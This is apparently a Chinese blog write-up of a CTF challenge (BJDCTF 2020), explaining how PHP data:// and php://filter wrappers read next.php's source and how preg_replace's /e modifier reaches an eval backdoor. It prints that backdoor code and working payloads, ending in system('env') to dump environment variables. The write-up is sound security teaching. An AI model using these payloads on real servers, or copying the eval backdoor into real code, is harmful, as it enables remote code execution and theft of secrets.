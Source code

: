 ```yaml
---
date: 2024-05-26
categories: 
    - BJDCTF
tag:
    - CTF
    - RCE
    - PHP
    - php伪协议 
    - 正则
---
```


# 每日一题 —— [BJDCTF 2020]ZJCTF，不过如此

> 题目地址： <https://www.nssctf.cn/problem/717>   

<!-- more -->

## index.php

第一步是白盒，观察代码，发现我们要传入两个参数，一个是 `text`，一个是 `file`。为了让我们能够成功包含 `next.php`， 我们需要满足函数 `file_get_contents` 可以从 `text` 参数中作为文件读取数据。我们使用 `data` 伪协议传入数据：


```
?text=data://text/plain,I%20have%20a%20dream
```

然后，我们通过同样的方法将 `next.php` 给包含进来。为了防止该 php 文件被解析，我们使用同样的方法包含这个文件，那么在该 `index.php` 文件下，最终 payload 为：

```
?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```

将得到的 base64 数据丢进 CyberChef 中得到 `next.php` 的源代码：

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

## next.php

现在转到 `next.php` 文件，一片空白需要我们传参。注意到有一个 `getFlag()` 方法调用了一句话木马，但是主程序并没有入口调用它。观察到主程序调用了 `complex` 函数，而 `complex` 函数调用了 `preg_replace` 函数。注意到其中的正则表达式中有一个 `e` 修饰符，经过搜索，发现它是 php 已废弃的修饰符，会调用 `eval` 方法并执行第二个参数 —— `replacement` 的内容。因此从此入手。

解析 `preg_replace` 函数，发现它扫描每一个 GET 的键值对，将 key 作为扫描的字符串，包裹上小括号并传递给第二个参数。此步骤是正则表达式的反向引用。而 `\\1` 就代表读取此前扫描字符串中第一个小括号包裹的内容。总结就是：对于传入的每一个键值对，此函数会操作该 `value` ，将 `key` 作为扫描字符串并替换为 `strtolower(key)` 。此函数会执行 `key` 参数，并认为 `key` 为一个普通的字符串。

观察到 `\\1` 周围包裹的为双引号，此引号内会解析变量，并且变量内部可以执行一个函数命令。那么构造该键值对： `\S*=${getFlag()}` 其中，`\S*` 代表所有字符组成的字符串，可以包括 `value` 中的所有信息。而 `${getFlag()}` 则会在解析变量的时候运行危险后门函数。因此同时我们就可以通过 `cmd` 参数实现 RCE。

最终 payload：

```
next.php?\S*=${getFlag()}&cmd=system('env');
```

在输出中发现环境变量有 `FLAG` 变量。

---
ps: 不知道为什么，无论是 `\S*` 参数还是 `cmd` 参数，都无法直接运行 `phpinfo()` 函数，只要运行就会爆“连接已重置”的问题。不知道这个是服务器问题还是我的问题，毕竟别的函数都是可以使用的。